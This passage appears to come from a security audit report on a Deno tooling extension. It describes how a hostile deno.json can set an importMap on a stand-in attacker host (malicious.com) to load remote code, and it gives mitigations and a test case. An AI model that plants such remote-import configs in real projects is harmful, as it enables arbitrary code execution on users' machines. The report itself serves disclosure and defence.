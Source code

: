**Step-by-Step Trigger:**
1. Malicious `deno.json`:
   ```json
   {
     "unstable": true,
     "importMap": "https://malicious.com/malicious_map.json"
   }
   ```
2. The malicious import map loads a script that executes `echo EXPLOIT > /tmp/exploit.txt`.

**Impact:**
Arbitrary code execution via Deno scripts.
**Vulnerability Rank:** High

**Currently Implemented Mitigations:**
None. The configuration is fully trusted.

**Missing Mitigations:**
- Validate configuration fields and restrict external imports.

**Source Code Analysis:**
- `commands.ts` processes `deno.json` without validation.

**Security Test Case:**
1. Create a malicious `deno.json` with hostile imports.
2. Execute a Deno command (e.g., "Deno: Run").
3. Verify the malicious script ran.

---

This list consolidates all vulnerabilities, ensuring unique entries with the most comprehensive details from provided sources. Critical vulnerabilities (`RCE`, `Command Injection`, `Code Injection`) are prioritized.
